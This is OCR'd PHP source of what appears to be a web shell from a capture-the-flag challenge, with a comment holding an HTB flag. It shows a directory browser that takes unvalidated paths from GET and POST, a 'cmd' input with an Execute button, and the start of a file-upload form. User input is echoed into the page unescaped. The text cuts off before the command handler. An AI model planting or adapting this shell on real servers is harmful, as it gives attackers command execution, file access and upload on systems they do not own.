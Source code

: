 ```bash
<!-- Latest compiled JavaScript -->
<script src="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/js/bootstrap.min.js"></script>

<div class="container">


<?php

function printPerms($file) {
        $mode = fileperms($file);
        if( $mode & 0x1000 ) { $type='p'; }
        else if( $mode & 0x2000 ) { $type='c'; }
        else if( $mode & 0x4000 ) { $type='d'; }
        else if( $mode & 0x6000 ) { $type='b'; }
        else if( $mode & 0x8000 ) { $type='-'; }
        else if( $mode & 0xA000 ) { $type='l'; }
        else if( $mode & 0xC000 ) { $type='s'; }
        else $type='u';
        $owner["read"] = ($mode & 00400) ? 'r' : '-';
        $owner["write"] = ($mode & 00200) ? 'w' : '-';
        $owner["execute"] = ($mode & 00100) ? 'x' : '-';
        $group["read"] = ($mode & 00040) ? 'r' : '-';
        $group["write"] = ($mode & 00020) ? 'w' : '-';
        $group["execute"] = ($mode & 00010) ? 'x' : '-';
        $world["read"] = ($mode & 00004) ? 'r' : '-';
        $world["write"] = ($mode & 00002) ? 'w' : '-';
        $world["execute"] = ($mode & 00001) ? 'x' : '-';
        if( $mode & 0x800 ) $owner["execute"] = ($owner['execute']=='x') ? 's' : 'S';
        if( $mode & 0x400 ) $group["execute"] = ($group['execute']=='x') ? 's' : 'S';
        if( $mode & 0x200 ) $world["execute"] = ($world['execute']=='x') ? 't' : 'T';
        $s=sprintf("%1s", $type);
        $s.=sprintf("%1s%1s%1s", $owner['read'], $owner['write'], $owner['execute']);
        $s.=sprintf("%1s%1s%1s", $group['read'], $group['write'], $group['execute']);
        $s.=sprintf("%1s%1s%1s", $world['read'], $world['write'], $world['execute']);
        return $s;
}


$dir = $_GET['dir'];
if (isset($_POST['dir'])) {
        $dir = $_POST['dir'];
}
$file = '';
if ($dir == NULL or !is_dir($dir)) {
        if (is_file($dir)) {
                echo "enters";
                $file = $dir;
                echo $file;
        }
        $dir = './';
}
$dir = realpath($dir.'/'.$value);
##flag = HTB{W0w_ROt_A_DaY}
$dirs = scandir($dir);
echo "<h2>Viewing directory " . $dir . "</h2>";
echo "\n<br><form action='".$_SERVER['PHP_SELF']."' method='GET'>";
echo "<input type='hidden' name='dir' value=".$dir." />";
echo "<input type='text' name='cmd' autocomplete='off' autofocus>\n<input type='submit' value='Execute'>\n";
echo "</form>";
echo "\n<br>\n<div class='navbar-form'><form action='".$_SERVER['PHP_SELF']."' method='POST' enctype='multipart/form-data'>\n";
echo "<input type='hidden' name='dir' value='".$_GET['dir']."'/> ";
```